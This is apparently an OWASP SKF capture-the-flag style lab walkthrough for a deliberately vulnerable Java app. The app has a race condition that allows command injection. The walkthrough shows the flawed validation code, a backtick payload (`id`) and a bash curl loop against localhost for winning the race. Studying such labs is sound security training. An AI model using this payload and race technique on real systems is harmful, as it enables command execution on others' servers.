 # KBID XXX - Race Condition

## Running the app Java

First make sure java is installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following command:

```
$ ./mvnw spring-boot:run
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

{% hint style="success" %}
Congratulations, you won the race
{% endhint %}

![](../../.gitbook/assets/java/RaceCondition/1.png)

All you need to do now is to add your name to the board and get your price.

The application shows an input box, where you can insert your username and go to the next screen, clicking "Make it mine".

The application verifies whether the username contains special characaters such as `"` and `\` and erases them. It also applies strict filtering on the text using the following regex:

`[A-Za-z0-9 ]*`

![](../../.gitbook/assets/java/RaceCondition/2.png)

If the username is correct, clicking `Boot` will put us on the score board. Yeah!!

![](../../.gitbook/assets/java/RaceCondition/3.png)

#### Step 2

This application suffers from a race condition vulnerability, but how can we identify it?

If we look at the code we see that there are 4 functions being used:

1. `bootValidate(person)`

   the function receives the username in input and executes the following:

   - deletes `"` and `\` from the username
   - opens `hello.sh` file
   - writes a command in it
   - closes the file
   - logs some useful info
   - checks if the username is in the format `[A-Za-z0-9 ]*`
   - returns the username if the regex succedes

2. `bootClean()` that removes all the hello files (`hello.sh` and `hello.txt`)

3. `bootRun()` executes the `hello.sh` file

4. `bootReset()` resets the system to the default settings

#### Step 3

If we intercept the traffic generate by the app we see that:

- a GET request is issued to validate the username and call `bootValidate(person)`

```text
GET /?person=test&action=validate
```

- clicking boot, will generate the request to execute the `bootRun()` function

```text
GET /?action=run HTTP/1.1
```

The logic behind the application is in the function `start()`. If the action is not `validate` or `reset`, the application runs `bootRun()` executing the `hello.sh` file.

We also notice that the function `bootValidate(person)` first inserts the command in the `hello.sh` and then validates the input, returning if it is valid or not.

```java
public String bootValidate(String person) {
    try (FileWriter writer = new FileWriter("hello.sh", false)) {
      writer.write("echo \"" + person + "\" > hello.txt");
      writer.close();
      java.util.Date date = new java.util.Date();
      new ProcessBuilder("/bin/bash", "-c", "echo 'hello.sh updated -- " + date + "' > log.txt").start();
      new ProcessBuilder("/bin/bash", "-c", "echo 'hello.sh cleaned -- " + date + "' >> log.txt").start();
      Process p3 = new ProcessBuilder("/bin/bash", "-c", "sed -n '/^echo \"[A-Za-z0-9 ]*\" > hello.txt$/p' hello.sh")
          .start();
      BufferedReader reader = new BufferedReader(new java.io.InputStreamReader(p3.getInputStream()));
      String valid = reader.readLine();
      System.out.println(valid);
      return valid == null ? "" : valid;
    } catch (Exception e) {
      e.printStackTrace();
    }
    return "";
  }
```

Everything works fine, so where is the problem?

The problem is that in this case, we have a very small window to execute the `bootRun()` function after the input is written in `hello.sh` and just before `return valid` is called. Again, there is a possibility to have a race condition only if the following steps are executed in this order:

1. pass our malicious payload to `bootValidate`
2. write the malicious payload in `hello.sh`
3. call `bootRun()`
4. `return valid` is called

## Exploitation

Before we can exploit the race condition, we need a good payload that will execute the command for us. We know that the double quotes and the backslash cannot be used to break the command, but we also know that using '`' backtick.

So our payload will be:

```
`id`

```

in order to execute the command `id` on the target system.

Now we can exploit this sequence to achieve a command injection. In order to do that we must send requests with high frequency.

Doing it manually is practically impossible, so we create a script that does that for us:

```sh
#!/bin/bash
while true; do

	curl -i -s -k  -X $'GET' \
	    -H $'Host: localhost:5000' -H $'User-Agent: Semen Rozhkov exploiter v1.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate ' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' \
	    $'http://localhost:5000/?action=run' | grep "Check this out"
done

```

and in the meantime we send the other request from the browser like

```
http://localhost:5000/?person=Default+User`id`&action=validate
```

If we look in the logs we will see:

![](../../.gitbook/assets/java/RaceCondition/4.png)

Congratulations, you won the race for real now!!!!!!!!

## Additional sources

{% embed url="https://wiki.owasp.org/index.php/Testing_for_Race_Conditions_(OWASP-AT-010)" %}
